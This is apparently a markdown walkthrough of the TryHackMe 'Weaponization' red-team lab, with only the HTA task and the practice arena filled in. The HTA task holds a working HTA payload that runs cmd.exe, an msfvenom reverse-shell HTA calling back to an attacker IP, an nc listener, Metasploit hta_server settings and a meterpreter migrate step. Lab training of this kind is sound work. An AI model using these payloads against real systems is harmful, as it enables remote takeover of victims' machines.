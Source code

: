 ![image](https://user-images.githubusercontent.com/51442719/180655800-ab7238f2-e777-4ea2-8203-8c2a0ca86566.png)

# [Weaponization](https://tryhackme.com/room/weaponization)
> #### Understand and explore common red teaming weaponization techniques. 
> #### You will learn to build custom payloads using common methods seen in the industry to get initial access.

---

- [x] [Task 1  Introduction]()
- [x] [Task 2  Deploy the Windows Machine]()
- [x] [Task 3  Windows Scripting Host - WSH]()
- [x] [Task 4  An HTML Application - HTA]()
- [x] [Task 5  Visual Basic for Application - VBA]()
- [x] [Task 6  PowerShell - PSH]()
- [x] [Task 7  Command And Control - (C2 Or C&C)]()
- [x] [Task 8  Delivery Techniques]()
- [ ] [Task 9  Practice Arena](#task-9--practice-arena)

---

# [Task 1  Introduction]()

---

# [Task 2  Deploy the Windows Machine]()

---

# [Task 3  Windows Scripting Host - WSH]()

---

# [Task 4  An HTML Application - HTA]()

### An HTML Application (HTA)
- HTA stands for “HTML Application.” It allows you to create a downloadable file that takes all the information regarding how it is displayed and rendered.
- HTML Applications, also known as HTAs, which are dynamic `HTML` pages containing JScript and VBScript. 
- The LOLBINS (Living-of-the-land Binaries) tool `mshta` is used to execute HTA files. 
- It can be executed by itself or automatically from Internet Explorer. 

#### In the following example, we will use an [`ActiveXObject`](https://en.wikipedia.org/wiki/ActiveX) in our payload as proof of concept to execute `cmd.exe`. 
- Consider the following HTML code.
```hta
<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```
- Then serve the `payload.hta` from a web server, this could be done from the attacking machine as follows,
```cmd
python3 -m http.server 8090
```
- On the victim machine, visit the malicious link using Microsoft Edge, `http://10.8.232.37:8090/payload.hta`. Note that the `10.8.232.37` is the AttackBox's IP address.
  > ![image](https://user-images.githubusercontent.com/51442719/180656414-2cc1cad9-0fc5-4cc0-9cc1-087a192999ae.png)
- Once we press `Run`, the `payload.hta` gets executed, and then it will invoke the `cmd.exe`. 
- The following figure shows that we have successfully executed the `cmd.exe`.
  > ![image](https://user-images.githubusercontent.com/51442719/180656440-dda92953-4d5e-4541-8dec-74e52b781866.png)

#### HTA Reverse Connection
- We can create a reverse shell payload as follows,
```cmd
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh -o thm.hta
```
- We use the `msfvenom` from the `Metasploit` framework to generate a malicious payload to connect back to the attacking machine. 
- We used the following payload to connect the `windows/x64/shell_reverse_tcp` to our IP and listening port.
- On the attacking machine, we need to listen to the port `443` using `nc`. 
- Please note this port needs root privileges to open, or you can use different ones.
- Once the victim visits the malicious URL and hits run, we get the connection back.
```cmd
sudo nc -lvp 443
```

### Malicious HTA via Metasploit 
- There is another way to generate and serve malicious HTA files using the Metasploit framework. 
- First, run the Metasploit framework using `msfconsole -q` command. 
- Under the exploit section, there is `exploit/windows/misc/hta_server`, which requires selecting and setting information such as `LHOST`, `LPORT`, `SRVHOST`, `Payload`, and finally, executing `exploit` to run the module.
```cmd
use exploit/windows/misc/hta_server
```
```cmd
set LHOST 10.8.232.37
```
```cmd
set LPORT 443
```
```cmd
set SRVHOST 10.8.232.37
```
```cmd
set payload windows/meterpreter/reverse_tcp

```
```cmd
exploit
```
- On the victim machine, once we visit the malicious HTA file that was provided as a URL by Metasploit, we should receive a reverse connection.
```cmd
meterpreter > sysinfo
```




---

# [Task 5  Visual Basic for Application - VBA]()

---

# [Task 6  PowerShell - PSH]()

---

# [Task 7  Command And Control - (C2 Or C&C)]()

---

# [Task 8  Delivery Techniques]()

---

# [Task 9  Practice Arena]()

- We have prepared a Windows 10 machine that runs a user simulation web app to execute your payloads or visit the malicious HTA links automatically. 
- Deploy the attached machine and wait a couple of minutes until it's up and running. 
- Then, visit the user simulator web application at `http://10.10.132.115:8080/`.
- Make sure to visit the user simulator web application from the AttackBox, or you can access it by connecting to the VPN.
  > ![image](https://user-images.githubusercontent.com/51442719/180656171-3cd54534-77fc-458a-9d7b-f431ca69280d.png)
- The web application allows uploading payloads as VBS, DOC, PS1 files. In addition, if you provide a malicious HTA link, the web application will visit your link.
- **Note for Doc files**: the simulation used in the provided Windows 10 machine will open the malicious Word document and be closed within 90 seconds. 
- In order to get longer prescience, you need to migrate as soon as you receive the connection back. 
- In the Metasploit framework, we can inject our current process into another process on the victim machine using migrate. 
- In our case, we need to `migrate` our current process, which is the MS word document, into another process to make the connection stable even if the MS word document is closed. 
- The easiest way to do this is by using `migrate` post-module as follow,
```cmd
meterpreter > run post/windows/manage/migrate 
```
- In this task, the goal is to generate a reverse shell payload of your choice and send it through the web application. 
- Once the web application runs your payload, you should receive a connect back. 
- Answer the question below and prove your access by finding the flag once you receive a reverse shell.
- For reference, you can use the MSFVenom Cheat Sheet on this [`website`](https://thedarksource.com/msfvenom-cheat-sheet-create-metasploit-payloads/).

### Answer the questions below
- What is the flag? Hint: Check the user desktop folder for the flag!
  > Answer format: [`***{********************************}`]()








